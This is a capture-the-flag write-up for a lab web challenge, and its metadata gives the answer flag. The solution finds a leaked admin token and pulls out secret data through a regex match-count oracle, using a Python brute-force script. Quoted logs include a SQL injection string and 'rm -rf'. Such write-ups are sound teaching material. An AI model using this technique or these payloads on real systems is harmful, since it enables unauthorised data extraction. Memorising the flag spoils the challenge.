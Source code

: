 ```yaml
---
challenge: Audit Logs
description: ***\nEvery action is logged, but not all logs are what they seem. Dive into TrailSec, an audit trail system, uncover hidden clues in system reports, and extract the flag.
flag: ATR{EFFICIENT_IN_SEARCHING_I_SEE}
scoring: standard(450)
value: 450
category: Hard
authors: Sean McGinty
---
```


# Audit Logs

[Back to Home](../../README.md)

## Points

Hard - 450 points

## Description

Every action is logged, but not all logs are what they seem. Dive into TrailSec, an audit trail system, uncover hidden clues in system reports, and extract the flag.

## Solution

After requesting a container and opening the link provided, we are presented with a text response of:

```
TrailSec Report Backend Service. Try /view_report?id=1.
```

We can go to `/view_report?id=1` and see the following:

```
Incident Report #1: System health check passed. No anomalies detected in the past 24 hours.
```

After continuing to increment the ID, we can see that the report IDs are not sequential. We'll repeat this process until we reach the ID of `16`, which gives us the following:

```
No such report.
```

We have gathered the following reports:

| Report ID | Incident Report                                                         |
|-----------|-------------------------------------------------------------------------|
| 1         | System health check passed. No anomalies detected in the past 24 hours. |
| 2         | Multiple failed login attempts detected on Admin Panel (IP: 192.168.10.42). Recommendation: Lock account after 3 failed attempts. |
| 3         | Unauthorized SSH key detected on production server. Removed unknown key fingerprint: SHA256:9gqMxyz9uYxKxyzNJJvNabcd== Audit initiated. |
| 4         | User "joleen" reported a slow system response. Root cause: Excessive CPU usage from excessive video playback during work hours. Flagged as non-critical. |
| 5         | Report ID mismatched during sync. Please contact support-desk@comssa.org.au. |
| 6         | Audit logs showed a request to from unauthorized IP. Query parameters were retained. Token mismatch suspected. Recommend reviewing logs for ?token= anomalies. |
| 7         | A regex pattern caused a service slowdown. Pattern submitted: (?=f.la)g Note: Log parser incorrectly flagged this as an error. |
| 8         | Request flood detected from IP: 203.0.113.99 User-Agent: sqlmap/1.4.6.10#dev Mitigation: Block IP via WAF. |
| 9         | Query string anomaly on : ?id=' OR '1'='1' Entry logged in audit trail. |
| 10        | Suspicious access to \`/matches\` with token: ADMIN_TOKEN Access denied. Logged for review.  |
| 11        | Querying number of matches may information. Confirmed via penetration test conducted by Red Team. |
| 12        | Coffee machine requested IP lease from DHCP server. Denied. Machine: "MrBean" (MAC: DE:AD:BE:A2:01:23) |
| 13        | User mistyped \`rm -rf /admin\` during onboarding demo. System backup restored successfully. |
| 14        | User "staff02" wanted a more powerful way to search secure files to get the number of files. Resolution: Gave access with our matches endpoint. |
| 15        | Our system was targeted by a DDoS attack. Mitigation: Rate limiting and IP blacklisting implemented. Recommendation: Review firewall rules and increase bandwidth. |

Looking through the reports, `#10` is interesting as it mentions a token of `ADMIN_TOKEN` on a request to `/matches`. There are some other reports that mention regex patterns, the matches route and ?token in `#6`.

When making a GET request to `/matches` with no parameters, we get a response of:

```
{"error":"Invalid token."}
```

Let's add in that token and see what we get `/matches?token=ADMIN_TOKEN`:

```
{"error":"Missing regex pattern."}
```

We can try adding a pattern parameter, say `?token=ADMIN_TOKEN&pattern=abc`, and we get a response of:

```
{"matches":0}
```

This is promising, let's try a `.*` regex pattern to see if we can get any matches:

```
{"matches":6}
```

We can successfully match all matches even if we don't know what they are. We know that the flag is in the format of `ATR{...}` so we can try to match that. We can use the regex pattern `ATR{.*}` and we get a response of:

```
{"matches":1}
```

From here it is just a matter of brute forcing the flag. You should try to be systematic about this. For example, you could work out the character set first. Using `pattern=ATR{[A-Z_]*}` will show that the flag is all uppercase letters and underscores.

One approach is to work out what letters are in the flag with `pattern=ATR{[ABCDEFGHIJKLMNOPQRSTUVWXYZ_]*}` and removing letters. After removing a letter, if the number of matches is the same, you know that letter is not in the flag. You can repeat this process until you have `pattern=ATR{[ACEFGHINRST_]*}`.

From this point it is a matter of brute forcing the flag. You can use a script to do this, or you can do it manually.

Here is an example script that will brute force the flag:

```python
import requests

BASE_URL = "http://<ip>:<port>/matches" # replace with actual server ip and port
TOKEN = "ADMIN_TOKEN"
CHARSET = "ACEFGHINRST_"
FLAG_PREFIX = "ATR{"
FLAG_SUFFIX = "}"

def test_flag(flag):
    pattern = f"{FLAG_PREFIX}{flag}{FLAG_SUFFIX}"
    response = requests.get(BASE_URL, params={"token": TOKEN, "pattern": pattern})
    return response.json().get("matches", 0) == 1

def brute_force_flag():
    flag = ""
    while True:
        for char in CHARSET:
            test_pattern = flag + char
            if test_flag(test_pattern + ".*"):
                flag += char
                print(f"Current flag: {FLAG_PREFIX}{flag}")
                break
        else:
            # No more characters match, flag is complete
            print(f"Flag found: {FLAG_PREFIX}{flag}{FLAG_SUFFIX}")
            break

if __name__ == "__main__":
    brute_force_flag()

# ...
# Current flag: ATR{EFFICIENT_IN_SEARCHING_I_SE
# Current flag: ATR{EFFICIENT_IN_SEARCHING_I_SEE
# Flag found: ATR{EFFICIENT_IN_SEARCHING_I_SEE}
```

After waiting for a minute or two, you'll get a flag of `ATR{EFFICIENT_IN_SEARCHING_I_SEE}`.

See [https://github.com/s3ansh33p/atr25_logs_challenge](https://github.com/s3ansh33p/atr25_logs_challenge) for the source code (was not available during the event).
